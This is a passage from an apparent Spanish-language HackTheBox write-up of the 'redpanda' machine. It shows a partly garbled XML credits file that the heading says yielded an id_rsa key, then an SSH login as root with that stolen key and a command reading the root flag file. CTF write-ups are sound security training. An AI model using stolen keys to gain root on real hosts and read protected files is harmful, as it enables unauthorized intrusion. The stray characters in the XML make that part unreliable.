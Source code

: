 ```xml wrap=false intitle='Conseguimos el id_rsa'
  </image>i
  <image>s
    <uri>/img/smooch.jpg</uri>
    <views>0</views>a
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>3</views>
  </image>
  <totalviews>4</totalviews>
</credits>
```

```bash wrap=false intitle='Conseguimos la flag'
❯ chmod 600 id_rsa
❯ ssh -i id_rsa root@10.10.11.170
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 06 Oct 2025 08:25:05 PM UTC

  System load:           0.0
  Usage of /:            81.1% of 4.30GB
  Memory usage:          39%
  Swap usage:            0%
  Processes:             218
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.170
  IPv6 address for eth0: dead:beef::250:56ff:fe94:bb95


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jun 30 13:17:41 2022
root@redpanda:~# whoami
root
root@redpanda:~# cat /root/root.txt 
4b9025130d0b2022c0...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/481)

---